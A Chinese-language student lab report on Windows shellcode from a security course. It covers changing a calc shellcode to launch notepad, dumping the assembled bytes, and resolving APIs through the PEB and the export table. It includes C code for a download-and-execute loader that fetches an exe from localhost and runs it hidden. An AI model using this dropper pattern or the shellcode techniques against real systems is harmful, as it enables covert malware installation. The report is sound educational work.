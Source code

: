 # Shellcode

## 实验要求

1. 把上面这个链接中shellcode能够成功运行，
2. 能从汇编源码编译通过并成功dump，
3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理，
4. 修改shellcode功能为运行记事本程序notepad. exe，
5. (选做)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）. 
   
## 实验流程

1. C语言是可以调用汇编程序的，所以直接在VS里运行代码.

![](img/calc.PNG)

2. 修改代码功能为运行记事本程序notepad.exe并dump

![](img/notepad.jpg)

```asm
; push 0x6578652e; exe. : 6578652e
; push 0x636c6163; clac: 636c6163
push 0x00657865;  exe : 00657865
push 0x2e646170; .dap : 2e646170
push 0x65746f6e; eton : 65746f6e
```

使用

```bash
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

可以编译成十六进制字节形式。

![](img/asmdump.jpg)

3. 修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
```c
// 代码功能：修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
#include <urlmon.h>
#include <Windows.h>

typedef HRESULT (WINAPI * MY_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	// 调用函数不会导入表显示有URLDownloadToFile函数。
	// urlmon.dll默认不加载，所以需要手动先行加载
    // 要获得函数地址，dll必须在内存中，kernel32是默认加载的，提供LoadLibrary函数
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_PROC function_ptr = (MY_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
    // 遍历导出表也可以实现GetProcAddress相同的效果
	// URLDownloadToFile <=> function_ptr
	function_ptr(
		NULL,
		"http://localhost:8000/Project1.exe",
		"a.exe",
		0,
		NULL
	);
	WinExec("a.exe", SW_HIDE);
}
```

在本地开启一个http server

![](img/httpserver.jpg)

Project1.exe功能为打开记事本, 运行时自动打开了记事本, 并且可以发现cpp文件旁边多了一个a.exe文件.

![](img/dll.JPG)

![](img/aexe.jpg)


## 关于Shellcode

shellcode没有CreateProcess，所以只能自己去找。

### 通用shellcode

> 所有 win_32 程序都会加载 ntdll.dll 和 kernel32.dll 这两个最基础的动态链接库。攻击代码没有经过链接的过程，不知道API的地址。如果想要
> 在 win_32 平台下定位 kernel32.dll 中的 API 地址，可以采用如下方法。
>
> 1. 首先通过段选择字 FS 在内存中找到当前的线程环境块 TEB。
> 2. 线程环境块偏移位置为 0x30 的地方存放着指向进程环境块 PEB 的指针。
> 3. 进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针，
>    其中，存放着已经被进程装载的动态链接库的信息。
> 4. PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指
>    针 InInitializationOrderModuleList。
> 5. 模块初始化链表 InInitializationOrderModuleList 中按顺序存放着 PE 装入运行时初始化
>    模块的信息，第一个链表结点是 ntdll.dll，第二个链表结点就是 kernel32.dll。
> 6. 找到属于 kernel32.dll 的结点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中的
>    加载基地址。
> 7. 从 kernel32.dll 的加载基址算起，偏移 0x3C 的地方就是其 PE 头。
> 8. PE 头偏移 0x78 的地方存放着指向函数导出表的指针。
> 9. 导出表0x1C处的指针指向存储导出函数偏移地址（RVA）的列表->导出表偏移0x20处的指针指向存储导出函数函数名的列表->函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA—>获得RVA后，再加上前面已经得到的动态链接库的加载基址，就获得了所需API此刻在内存中的虚拟地址。
>
> ### fs是什么?TEB是什么?
>
> - fs是一个寄存器,只不过不可见
> - 在NT内核系统中fs寄存器指向TEB结构
> - TEB+0x30处指向PEB结构

### PE的结构

[PE Format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)

可执行文件，起始为MZ头，二进制 3CH处记录了文件起始位置的偏移量，PE标志为`50 45 00 00`，创建时间为timestamp格式。


### DLL

WinExec事实上执行[CreateProcess](https://docs.microsoft.com/en-us/windows/win32/procthread/creating-processes)

```cpp
main(int argc, TCHAR* argv[]);
argument_counter argument_vector
表示命令行以空格分隔参数，如果参数内需要空格可以加引号。
```

```c
if (!CreateProcess(NULL,   // No module name (use command line)
        argv[1],        // Command line
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi)           // Pointer to PROCESS_INFORMATION structure
        )
```

CreateProcess完成了动态链接，并跳到entrypoint运行下一步。即完成了父进程向子进程的调用。

## 实验问题与解决

- notepad.exe压栈问题

    最开始组合成了 `空exe` `.dap` `teon`,但这样栈指针需要移位, 问过老师后改成了`exe.` `dape` `ton空`, 成功运行

- 关于解决编码问题
下载执行器的代码一直报错, 发现是字符集的问题.

    项目-属性-高级-字符集 将Unicode改成未设置

其他见[笔记](https://github.com/LyuLumos/Reverse-Engineering-and-Software-Security/blob/master/%E9%80%86%E5%90%91%E5%B7%A5%E7%A8%8B%E4%B8%8E%E8%BD%AF%E4%BB%B6%E5%AE%89%E5%85%A8%E7%AC%94%E8%AE%B0.md)
